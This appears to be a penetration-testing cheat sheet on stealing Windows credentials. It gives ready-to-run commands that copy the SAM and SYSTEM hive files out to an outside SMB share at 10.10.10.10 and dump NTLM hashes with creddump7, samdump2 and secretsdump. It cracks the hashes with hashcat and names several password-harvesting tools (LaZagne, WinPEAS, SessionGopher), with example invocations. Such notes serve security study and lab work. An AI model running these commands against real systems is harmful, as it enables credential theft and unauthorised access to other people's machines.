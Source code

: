 ### pwd-SAM
+ insecurely stored backups of the SAM and SYSTEM files, eg c:\windows\repair\
+ creddump7 on kali dumped hash would be wrong/incorrect on windows. use the new repo from git.
+ pwddump2/creddump7 dump works fine on windows7

```bat
copy C:\Windows\Repair\SAM \\10.10.10.10\kali\
copy C:\Windows\Repair\SYSTEM \\10.10.10.10\kali\

git clone https://github.com/Tib3rius/creddump7
pip3 install pycrypto
python3 creddump7/pwdump.py SYSTEM SAM

# Crack the admin NTLM hash using hashcat:
hashcat -m 1000 --force <hash> /usr/share/wordlists/rockyou.txt

# dump with samdump2, the pwd/hash dumped via this could be wrong on windows 10.
samdump2 system sam
```

### Tools search pwd
+ [MSF-Credentials Plugin](https://github.com/carlospolop/MSF-Credentials) is a msf plugin I have created this plugin to automatically execute every metasploit POST module that searches for credentials inside the victim.
+ [Winpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) automatically search for all the files containing passwords mentioned in this page.
+ [Lazagne](https://github.com/AlessandroZ/LaZagne) is another great tool to extract password from a system.
+ The tool [SessionGopher](https://github.com/Arvanaghi/SessionGopher) search for sessions, usernames and passwords of several tools that save this data in clear text (PuTTY, WinSCP, FileZilla, SuperPuTTY, and RDP)

```powershell
# msf-credentials plugin

# winpeas

# Sessiongopher
Import-Module path\to\SessionGopher.ps1;
Invoke-SessionGopher -Thorough
Invoke-SessionGopher -AllDomain -o
Invoke-SessionGopher -AllDomain -u domain.com\adm-arvanaghi -p s3cr3tP@ss
```

### VHD file
+ contain sam and system, extract password.
  
```bash
# mount vhd file
sudo guestmount --add /mnt/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt/vhd/

# extract password
secretsdump.py -sam SAM -system SYSTEM local
```
